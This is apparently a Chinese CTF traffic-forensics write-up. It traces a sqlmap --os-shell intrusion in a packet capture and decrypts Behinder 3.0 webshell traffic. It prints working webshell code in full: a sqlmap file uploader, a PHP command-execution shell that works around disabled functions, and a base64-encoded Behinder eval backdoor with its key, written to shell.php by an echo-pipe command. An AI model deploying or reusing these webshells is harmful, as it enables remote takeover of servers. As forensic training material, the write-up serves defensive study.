

SQLpacket流量取证
先看题目
黑客看到的secret的文件名是
攻击者上传的恶意文件文件名是(非php)
打开pacpng文件，第一眼就看到很明显的sql注入流量
继续跟踪相关流量包
sqlmap --os-shell流量 LINES TERMINATED BY后面跟着ascii编码的木马文件流量
<?php
if (isset($_REQUEST["upload"])) {
$dir=$_REQUEST["uploadDir"];
if (phpversion()<'4.1.0') {
$file=$HTTP_POST_FILES["file"]["name"];
@move_uploaded_file($HTTP_POST_FILES["file"]["tmp_name"],$dir."/".$file) or die();
} else {
$file=$_FILES["file"]["name"];
@move_uploaded_file($_FILES["file"]["tmp_name"],$dir."/".$file) or die();
}
@chmod($dir."/".$file,0755);
echo "File uploaded";
} else {
echo "<form action=".$_SERVER["PHP_SELF"]." method=POST enctype=multipart/form-data><input type=hidden name=MAX_FILE_SIZE value=1000000000><b>sqlmap file uploader</b><br><input name=file type=file><br>to directory: <input type=text name=uploadDir value=/var/www/> <input type=submit name=upload value=upload></form>";
}
?>
可以看的出来这个文件是用来上传文件的
继续跟踪流量

<?php $c=$_REQUEST["cmd"];
@set_time_limit(0);
@ignore_user_abort(1);
@ini_set("max_execution_time",0);
$z=@ini_get("disable_functions");
if(!empty($z)) {
$z=preg_replace("/[, ]+/",',',$z);
$z=explode(',',$z);
$z=array_map("trim",$z);
} else {
$z=array();
}
$c=$c." 2>&1\n";
function f($n) {
global $z;
return is_callable($n)and!in_array($n,$z);
}
if(f("system")) {
ob_start();
system($c);
$w=ob_get_clean();
} elseif(f("proc_open")) {
$y=proc_open($c,array(array(pipe,r),array(pipe,w),array(pipe,w)),$t);
$w=NULL;
while(!feof($t[1])) {
$w.=fread($t[1],512);
}
@proc_close($y);
} elseif(f("shell_exec")) {
$w=shell_exec($c);
} elseif(f("passthru")) {
ob_start();
passthru($c);
$w=ob_get_clean();
} elseif(f("popen")) {
$x=popen($c,r);
$w=NULL;
if(is_resource($x)) {
while(!feof($x)) {
$w.=fread($x,512);
}
}
@pclose($x);
} elseif(f("exec")) {
$w=array();
exec($c,$w);
$w=join(chr(10),$w).chr(10);
} else {
$w=0;
}
echo"<pre>$w</pre>";
?>
这里其实可以举一反三的看出sqlmap --os-shell在mysql数据库下的逻辑，先通过构造特殊语句上传一个上传使用的php文件，在通过这个上传使用的php文件上传真正的木马
继续跟踪
可以看到这里黑客执行了一个ls命令，还记得我们第一题吗，需要我们找出secret的具体文件名，这里答案就出来了
secret1687456.txt
继续跟踪
通过url解码
echo PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwogICAgJGtleT0iMDVjMWNjOWMyZGVhZmI3NSI7CgkkX1NFU1NJT05bJ2snXT0ka2V5OwoJc2Vzc2lvbl93cml0ZV9jbG9zZSgpOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC4iIik7CgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19pbnZva2UoJHApIHtldmFsKCRwLiIiKTt9fQogICAgQGNhbGxfdXNlcl9mdW5jKG5ldyBDKCksJHBhcmFtcyk7Cj8+ |base64 -d > shell.php
可以看到他将某些代码通过base64解码写入了shell.php文件中
[neko@NekoArch ~]$ echo PD9waHAKQGVycm9yX3JlcG9ydGluZygwKTsKc2Vzc2lvbl9zdGFydCgpOwogICAgJGtleT0iMDVjMWNjOWMyZGVhZmI3NSI7CgkkX1NFU1NJT05bJ2snXT0ka2V5OwoJc2Vzc2lvbl93cml0ZV9jbG9zZSgpOwoJJHBvc3Q9ZmlsZV9nZXRfY29udGVudHMoInBocDovL2lucHV0Iik7CglpZighZXh0ZW5zaW9uX2xvYWRlZCgnb3BlbnNzbCcpKQoJewoJCSR0PSJiYXNlNjRfIi4iZGVjb2RlIjsKCQkkcG9zdD0kdCgkcG9zdC4iIik7CgkJZm9yKCRpPTA7JGk8c3RybGVuKCRwb3N0KTskaSsrKSB7CiAgICAJCQkgJHBvc3RbJGldID0gJHBvc3RbJGldXiRrZXlbJGkrMSYxNV07IAogICAgCQkJfQoJfQoJZWxzZQoJewoJCSRwb3N0PW9wZW5zc2xfZGVjcnlwdCgkcG9zdCwgIkFFUzEyOCIsICRrZXkpOwoJfQogICAgJGFycj1leHBsb2RlKCd8JywkcG9zdCk7CiAgICAkZnVuYz0kYXJyWzBdOwogICAgJHBhcmFtcz0kYXJyWzFdOwoJY2xhc3MgQ3twdWJsaWMgZnVuY3Rpb24gX19pbnZva2UoJHApIHtldmFsKCRwLiIiKTt9fQogICAgQGNhbGxfdXNlcl9mdW5jKG5ldyBDKCksJHBhcmFtcyk7Cj8+ | base64 -d
<?php
@error_reporting(0);
session_start();
$key="05c1cc9c2deafb75";
$_SESSION['k']=$key;
session_write_close();
$post=file_get_contents("php://input");
if(!extension_loaded('openssl'))
{
$t="base64_"."decode";
$post=$t($post."");
for($i=0;$i<strlen($post);$i++) {
$post[$i] = $post[$i]^$key[$i+1&15];
}
}
else
{
$post=openssl_decrypt($post, "AES128", $key);
}
$arr=explode('|',$post);
$func=$arr[0];
$params=$arr[1];
class C{public function __invoke($p) {eval($p."");}}
@call_user_func(new C(),$params);
?>
我们与也可以通过相同的代码进行解码，这个代码是不是非常眼熟，没错这个就是冰蝎的木马
木马的结构可以暂时不用管，只要知道key的位置就是密码，或者说密码的16位md5，在拿到md5后我们就可以尝试在网站上查询
解码结果为cmdd，这也是木马的密码，不过虽然知道了明文密码但是木马的流量依旧需要使用md5进行解密，这里我们也可以尝试去了解下冰蝎3.0的流量逻辑
冰蝎每个版本都有自己的逻辑，3.0会先将进行base64编码，加入到执行代码中，再将执行代码做一次base64编码，套上assert|eval(base64_decode([base64code])使用密钥的md5做aes-cbc加密数据
非常酷炫
接下来我们可以看一个例子
将base64进行解码
这里可以看到红线所标注的地方，也是base64的编码
经过解码后分别为"list""/tmp/"
可以知道他尝试读取了tmp下面的文件 借此我们也可以看看返回包的可能的逻辑
返回包的逻辑也差不多例如以上的命令返回包生成的逻辑应该是，将数据整理为json数据包再将json中的各项数据内容做base64编码而后将整个json在做一次base64编码，而后将编码整合上执行结果（通常为success）的base64编码再次整合成一个json用密钥的md5值做aes的cbc模式加密。
让我们看一下解密过程
解码这里得到的base64
因为这里的编码过于复杂，一个个解码太费时间，所以我请gpt写了一个解码的脚本
这里我们就得到了明文的返回数据
了解了如何解密冰蝎3.0的流量，接下来我们就可以尝试获取最后一题的答案，没有难度就是很费时间，需要找到黑客上传的文件就需要不断的跟踪数据包
最后在这个数据包找到相关文件
尝试对其解码
进行base64解码后其中数据分别是"create""/tmp/mysql666123.c""前者源码"
值得注意的是源码进行了两次base64编码

可以确定这就是还可上传的恶意文件
遂 题解。
后记：
这道题考察了你是否了解wireshark sqlmap --os-shell 冰蝎3.0流量解密，不过实在有点碰运气，也有可能是我的技术问题并到这题的真正解法